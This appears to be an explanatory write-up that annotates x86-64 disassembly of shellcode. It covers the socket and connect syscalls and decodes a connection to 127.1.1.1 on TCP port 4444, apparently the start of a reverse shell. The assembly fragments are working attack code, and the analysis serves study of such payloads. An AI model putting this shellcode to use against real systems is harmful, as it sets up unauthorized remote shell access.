 ```bash
```

## Socket System Call
```bash
<shellcode>:          push   0x29
<shellcode+2>:        pop    rax
<shellcode+3>:        cdq
<shellcode+4>:        push   0x2
<shellcode+6>:        pop    rdi
<shellcode+7>:        push   0x1
<shellcode+9>:        pop    rsi
<shellcode+10>:       syscall
 
```
+ In the first 3 commands we can see that rax is set to 0x29. 
  - This is the system call number for `socket`.
+ `cdq` is used to clear out the `rdx` register 
  - set it to `0x0` aka `NULL`
+ `rdi` is set to `0x2` which is `AF_INET`
+ `rsi` is set to `0x1` which is `SOCK_STREAM`

## Connect System Call
```bash
<shellcode+12>:       xchg   rdi,rax 
```
+ Here we see the socket file descriptor returned from the socket system call, passed to the connect system call.

```bash
<shellcode+14>:       movabs rcx,0x101017f5c110002
<shellcode+24>:       push   rcx
<shellcode+25>:       mov    rsi,rsp
```
+ This is the struct for the socket address.
  + `0002` is `AF_INET`
  + `5c11` is for TCP Port `4444`
  + `0101017f` is for the IP address `127.1.1.1` 

```bash
<shellcode+28>:       push   0x10
<shellcode+30>:       pop    rdx
```
+ `rdx` is equal to the size of the struct. 
  - 16 bytes in decimal, or `0x10` in hex.

```bash
<shellcode+31>:       push   0x2a
<shellcode+33>:       pop    rax
<shellcode+34>:       syscall
 ```
+ This is the system call number for connect, `0x2a`, which must be in the `rax` register at the time of the system call.
